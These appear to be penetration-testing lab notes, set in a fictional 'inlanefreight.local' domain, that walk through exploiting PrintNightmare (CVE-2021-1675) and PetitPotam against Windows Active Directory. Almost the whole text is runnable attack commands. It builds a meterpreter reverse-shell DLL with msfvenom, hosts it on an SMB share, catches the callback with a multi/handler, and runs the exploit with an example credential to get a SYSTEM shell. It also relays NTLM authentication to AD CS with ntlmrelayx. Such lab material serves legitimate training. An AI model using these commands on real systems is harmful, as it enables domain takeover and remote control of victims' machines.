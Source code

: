```
git clone https://github.com/cube0x0/impacket
```
```
cd impacket
```
```
python3 ./setup.py install
```
### Enumerating for MS-RPRN to check if Print System Asynchronous Protocol and Print System Remote Protocol are exposed on the target
```
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```
After confirming this, we can proceed with attempting to use the exploit. We can begin by crafting a DLL payload using msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```
#### Creating a Share with smbserver.py
```
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```
#### Once the share is created and hosting our payload, we can use MSF to configure & start a multi handler responsible for catching the reverse shell that gets executed on the target
```
use exploit/multi/handler
```
```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
```
set LHOST 172.16.5.225
```
```
set LPORT 8080
```
```
run
```
#### Running the Exploit
```
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```
The payload will then call back to our multi handler giving us an elevated SYSTEM shell
# PetitPotam (MS-EFSRPC)
we need to start ntlmrelayx.py in one window on our attack host, specifying the Web Enrollment URL for the CA host and using either the KerberosAuthentication or DomainController AD CS template. If we didn't know the location of the CA, we could use a tool such as certi to attempt to locate it. https://github.com/zer1t0/certi
```
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```
## Linux
```
python3 PetitPotam.py <attack host IP> <Domain Controller IP>
```
```
python3 PetitPotam.py 172.16.5.225 172.16.5.5
```